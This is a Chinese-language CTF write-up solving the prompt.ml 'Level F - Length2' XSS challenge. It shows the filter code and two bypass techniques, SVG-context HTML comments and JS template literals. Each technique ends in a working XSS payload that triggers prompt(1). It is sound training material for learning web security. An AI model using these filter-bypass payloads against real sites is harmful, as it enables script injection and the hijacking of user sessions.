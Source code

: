 ## [[prompt(1) to win](http://prompt.ml)] [[Level F - Length2](http://prompt.ml/15)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-f-length2/)]

------

## 题目

```javascript
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

## 解题报告

这题与 【[Level 7 - Length](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2007%20-%20Length)】 十分相似，区别在于：

- 长度限制从 12 放宽到 15
- `*` 被过滤，导致 JS 注释 `/* */` 不可用


------------

### 解法一：SVG 注释

换言之，要解决这题，就需要**使用另一种方法实现多行注释**。我第一时间想到的就是 HTML 注释 `<!--   -->` 。

但是这题在 HTML 中穿插着 JS 代码，而在默认 HTML 语境下， HTML 注释是没办法在 JS 代码中使用的。

为了解决这个问题，可以借助 `<svg>` 标签强制解析 XML 语法的特点：

在 `<svg>` 标签中若包含 JS 代码，即使使用 HTML 注释 `<!--   -->` 也是可以被成功解析的。

例如：

```html
<svg>
    <!-- xxxx -->
    <script>
        <!-- yyyy -->
        alert(1)
        <!-- zzzz -->
        alert(2)
    </script>
</svg>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/01.png)


------------

那么这题的答案的呼之欲出了，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><svg><!--    " data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt<!--  " data-comment='{"id":2}'></p>
<p class="comment" title="-->(1)</script>" data-comment='{"id":3}'></p>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/02.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： `"><svg><!--#--><script><!--#-->prompt<!--#-->(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/03.png)


------------

### 解法二：模板字符串

这题其实还有另一种解法，可以使用 [模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings) 解题。

在 JS 中，可以使用 倒引号（或反引号）包围字符串，字符串中再以 `${expression}` 方式入表达式，这样表达式就会被执行，例如：

```javascript
<script>
    `<a="1" b='2'> ${prompt(1)} by exp`
</script>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/04.png)

回到这题，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><script>`    " data-comment='{"id":0}'></p>
<p class="comment" title="${prompt(1)}   " data-comment='{"id":1}'></p>
<p class="comment" title="`</script>     " data-comment='{"id":2}'></p>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/05.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： 

```html
"><script>`#${prompt(1)}#`</script>
```

> 注：这个 payload 也可用于 【[Level 7 - Length](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2007%20-%20Length)】 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/06.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
